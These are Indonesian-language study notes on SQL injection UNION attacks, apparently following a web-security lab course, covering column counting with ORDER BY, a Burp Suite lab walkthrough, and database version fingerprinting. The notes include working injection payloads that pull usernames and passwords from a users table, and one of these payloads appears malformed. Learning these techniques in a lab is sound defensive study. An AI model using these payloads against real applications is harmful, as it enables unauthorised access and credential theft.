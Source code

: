 ## **MATERI : SQL Injection UNION ATTACK**
Ketika aplikasi rentan terhadap SQL Injection, dan hasil dari query adalah respond dari aplikasi. Kamu bisa menggunakan ***UNION*** untuk mendapatkan data dari bagian lain ( _Other Table_ ) database. Ini biasa disebut dengan SQL injection UNION ATTACK. <br>
***UNION*** memungkinkan kamu untuk meng-execute 1 atau lebih _SELECT_ Query dan menambah hasil Query original. Contohnya :

>     SELECT a, b FROM table1 UNION SELECT c, d FROM table2
 SQL Query ini memberi 1 hasil dengan 2 kolom.<br> Berisi Kolom _a_ & _b_ pada _table1_ dan kolom _c_ & _d_ pada _table2_ 

agar ***UNION*** Query bekerja, 2 kunci utama harus terpenuhi: <br> <br>
_1. Queri Individu harus memberikan jumlah kolom yang sama_ <br>
_2. Tipe data pada tiap kolom harus kompatible diantara queri individu_

Untuk melakukan SQLi UNION Attack, Pastikan kamu memenuhi 2 keperluan ini. Normalnya ini bertujuan untuk mengetahui: <br> <br>
_1. Berapa kolom yang muncul dari query original_ <br>
_2. Manakah kolom yang muncul dari query original yang cocok dengan tipe data untuk menahan hasil dari query yang di inject_

## **MATERI : Determining the number of columns required**
Ketika kamu melakukan SQLi UNION Attack, ada 2 metode efektif untuk menentukan berapa banyak kolom yang muncul dari query original.
Salah satu metodenya melibatkan seri dari klausa _ORDER BY_ dan menambah kolom index yang spesifik hingga error terjadi. Contohnya, jika inject point adalah quoted string didalam klausa _WHERE_ dari query original, kamu harus menyertakan :
>
>
     ' ORDER BY 1--
     ' ORDER BY 2--
     ' ORDER BY 3--
     dst.
## **LAB : SQL injection UNION attack, retrieving multiple values in a single column**

1. Gunakan BURP SUITE untuk Intercept dan modifikasi request yang menyusun kategori produk filter
2. Memastikan angka dari kolom yang di kembalikan dari query dan memastikan kolom mana yang berisi data
	Verifikasi bila query mengembalikan 2 kolom, dan hanya 1 yang berisi text.
	menggunakan  payload seperti berikut di parameter " category "
>     ' UNION SELECT NULL,'abc'--

3. Menggunakan Payload berikut untuk mendapatkan isi content dari users table:
>     ' UNION SELECT NULL username || '~' || password FROM users--

4. Verifkasi respond apliaksi yang berisi username & password

## **Materi : Menganalisa database pada serangan SQL Injection**
Untuk melakukan exploit SQL injection, terkadang menemukan infromasi tentang database tersebut. Seperti: <br>
***~Tipe dan Versi software database*** <br>
***~Isi dari Table & Column ( Kolom & Baris ) Database*** <br>

## **Materi : Menanyakan Tipe dan Versi database**
Kamu bisa berpotensi mengidentifikasi tipe dan versi database secara bersamaan dengan cara meng-inject ( provfiider-specific query ) untuk melihat apakah ada yang berhasil. <br>
Berikut adalah beberapa Query untuk menentukan versi database untuk beberapa tipe database populer: <br>

>      
    Database type		Query
    Microsoft, MySQL	SELECT @@version
    Oracle	SELECT * 	FROM v$version
    PostgreSQL		SELECT version()

Sebagai contoh, kamu bisa menggunakan "UNION" attack dengan input berikut:
>     ' UNION SELECT @@version--

Ini adalah kemungkinan outputnya, pada tahap ini kamu bisa mengkonfirmasi jika database Microsoft SQL Server dan
melihat versi yang digunakan:
>

    Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
    Mar 18 2018 09:11:49
    Copyright (c) Microsoft Corporation
    Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)



